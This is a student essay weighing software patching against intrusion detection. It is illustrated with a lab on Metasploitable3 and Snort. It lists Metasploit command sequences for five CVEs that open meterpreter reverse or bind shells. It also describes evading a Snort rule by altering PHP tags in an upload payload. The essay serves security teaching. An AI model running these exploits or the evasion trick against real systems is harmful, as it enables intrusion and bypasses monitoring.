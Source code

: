 **NOTE:** A markdown version with improved readability can be found at https://github.com/Mknsri/cybersecurity-base-project2/blob/master/essay.md. The repository also contains the snort.conf and any modified rules used in the examples, and the modified payload to avoid Snort detection.

Is it easier to to fix the application than to detect attacks? We will look at the overview of both statements, and think about the pros and cons of each approach. We will also look at some example attack scenarios.


**Fixing the application in a perfect world would make more sense.**

After an exploit has been disclosed, the developer would publish a new version where the flaw is fixed, and anyone using the application would update it. However due to various reasons this does often not happen. For example the product is not being supported anymore so any patches are not being released or the flaw is not critical enough to take time away from developing features. Some companies even discourage sending vulnerability reports by trying to sue anyone who sends them information about security vulnerabilities in their application. This is a sure way to make anyone finding vulnerabilities to go looking other sources to benefit from the information.
The third part of this problem is the user of the application. If they do not keep their software up-to-date, the vulnerability will not be fixed. This might be due to ignorance, or laziness to update the software. In some cases other pieces of software depend on that exact version of software, making it impossible to update without breaking some business solutions. This can often happen with large enterprises with multiple business-critical applications depending on each other and running for years. At some point even a minor but critical security update becomes too cumbersome to update. At this stage some companies will as a precaution they will wrap their systems infrastructure using an Intrusion Detection System. Which brings us to the second statement. 


**Would it be easier to just detect attacks and deal with them as they come?**

Intrusion Detection Systems range from antivirus-software running on a home computer to complex company-wide monitoring and reporting systems that monitor all network and application activity within the company. Depending on the kind of system they might do analysis on network traffic or check application signatures for known viruses. Some systems even track and monitor employee activity to report on threats like employees trying to access sensitive data or running potentially malicious software. Intrusion Detection Systems take pressure off keeping track of each piece of software being up-to-date, and even updated software is no guarantee that the systems they are running on are safe. IDS' are often standalone or packaged solutions which keep up-to-date themselves, with daily updates being able to detect the newest threats. They also offer a wide range of features, and can offer more general security to companies networks, having overall-security instead of maintaining and fixing  exploits and keeping software updated. Since IDS' can also monitor and report suspicious network activity, they have more chance of discovering a sophisticated attacker, or someone gathering information over a long period of time. By tracking normal network activity over a period of time to establish a sort of baseline you can detect suspicious traffic. So why aren't IDS' the superior solution? Firstly, security software is still software. It has bugs, oversights and even security flaws attackers can exploit. They need to be kept updated like any other software. Relying too much on an IDS' is also a great way for any attackers to only have one obstacle to overcome. The attacker can focus all resources and research on the IDS itself, finding any methods to break or bypass it. They also fall victim to the same problems as any other application developer might face with updating software, as discussed earlier in the essay.

**Examples:**
The target system is MetaSploitable3 (https://github.com/rapid7/metasploitable3), which is designed to run intentionally vulnerable software. We install Snort (https://www.snort.org/) which is a network monitoring tool which can be used to run as an intrusion detection system. Then we use Kali (https://www.kali.org/), which is a version of Linux with multiple penetration testing tools used to detect and exploit vulnerabilities in software.

### Target machine:
+ MetaSploitable3 - Version commit https://github.com/rapid7/metasploitable3/commit/7f772162232d2a904be22588a0295742b3cd5d4e
+ Snort - Version 2.9.9.0, Rules "snortrules-snapshot-2976"
+ WinPCap - Version 4.1.1
+ Snort.conf - https://github.com/Mknsri/cybersecurity-base-project2/blob/master/working_snort.conf

### Attacker machine:
+ Kali - kali-linux-2016.2-amd64

### Legend used in reports:

+ `<REMOTEHOST>` IP address of the target
+ `<LOCALHOST>` IP address of the attacker
+ `<SNORTINTERFACE>` Network interface that Snort is listening.

To run Snort:
`snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none`

## Attacks discovered by Snort IDS

### 1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution

    1. use exploit/multi/http/struts_dmi_rest_exec
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8282
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run

### 2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
    1. use exploit/multi/elasticsearch/script_mvel_rce
    2. set RHOST <REMOTEHOST>
    3. set RPORT 9200
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run

### 3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)

    1. use exploit/multi/http/axis2_deployer
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8282
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    5. run

## Attacks not discovered by Snort IDS:

### 1. CVE-2015-2342 - Java JMX Server Insecure Configuration Java Code Execution

    1. use exploit/multi/misc/java_jmx_server
    2. set RHOST <REMOTEHOST>
    3. set RPORT 1617
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run
The reason this exploit was not discovered was that the rule monitoring the exploit was not enabled. In real life this sort of oversight is possible if the IDS software is configured incorrectly.

The following exploit is discovered by Snort, but by modifying the payload code we can easily bypass Snort detection, 
demonstrating how IDS systems can in some cases be made ineffective.
Note: If you get the following error when performing the exploit:
Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
Make sure you have version with this fix implemented:
https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4
The <PATHTOEXPLOIT> file can be found here https://github.com/Mknsri/cybersecurity-base-project2/blob/master/cve_2016-2019_undetected.php

### 2. CVE-2016-2019 - Wordpress Ninja Forms Unauthenticated file upload

    1. use exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8585
    4. set TARGETURI /wordpress/
    5. set FORM_PATH /index.php/king-of-hearts/

    To alert Snort:
    6. set payload php/meterpreter/bind_tcp
    7. set LHOST <LOCALHOST>
    8. run

    To not alert Snort:
    6. set payload generic/custom
    7. set payloadfile <PATHTOEXPLOIT> (e.g /root/cve_2016-2019_undetected.php)
    8. run
Avoiding the alert was discovered by looking at the rules of the alert. It was monitoring malicious upload code by looking for `<?`-php tags. Replacing these tags was in the payload was the only thing needed to avoid detection.

**Summary**

Looking at the examples even with IDS some attacks can slip by undetected. So from a security standpoint, which would be the better solution? The best solution lies in using both. Having the latest version of software running on the systems is priority. An IDS should be deployed to monitor overall network activity and to those reports should be used to identify the risks in the system. Relying on both options is the best way to minimize threat to systems, and giving attackers difficulty finding exploits without being detected is the best way to discourage them from trying to infiltrate your systems.